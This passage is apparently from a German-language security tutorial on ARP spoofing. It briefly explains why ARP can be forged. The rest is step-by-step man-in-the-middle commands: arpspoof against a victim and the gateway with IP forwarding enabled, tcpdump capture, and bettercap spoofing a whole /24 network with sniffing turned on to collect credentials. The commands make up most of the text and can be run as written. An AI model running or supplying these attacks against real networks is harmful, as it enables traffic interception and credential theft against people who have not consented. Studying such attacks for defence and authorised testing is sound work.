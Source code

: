 ### ARP Spoofing

**Theorie:**

ARP (Address Resolution Protocol) mappt IP ↔ MAC:
- "Wer hat IP 192.168.1.1?" → "Ich (MAC: aa:bb:cc:dd:ee:ff)"
- Nicht authentifiziert
- Angreifer kann falsche Antworten senden

**Attack:**
1. Victim denkt: Gateway = Angreifer-MAC
2. Gateway denkt: Victim = Angreifer-MAC
3. Traffic fließt durch Angreifer

#### ARP Spoofing mit arpspoof

```bash
# Installiere dsniff
apt-get install dsniff

# Enable IP Forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Terminal 1: Spoof Victim → Gateway
arpspoof -i wlan0 -t 192.168.1.50 192.168.1.1

# Terminal 2: Spoof Gateway → Victim
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.50

# Jetzt bist du in der Mitte!
```

**Traffic capturen:**
```bash
# Terminal 3
tcpdump -i wlan0 -w mitm_capture.pcap
```

#### ARP Spoofing mit bettercap

**Bettercap = Modernes MITM Framework**

```bash
# Installiere
apt-get install bettercap

# Starte bettercap
bettercap -iface wlan0

# Im bettercap Prompt:
net.probe on
net.show

# ARP Spoofing starten (gesamtes Netzwerk)
set arp.spoof.targets 192.168.1.0/24
arp.spoof on

# Oder nur spezifisches Target
set arp.spoof.targets 192.168.1.50
arp.spoof on

# Sniffer aktivieren
net.sniff on

# Zeige captured Credentials
net.sniff.stats

```
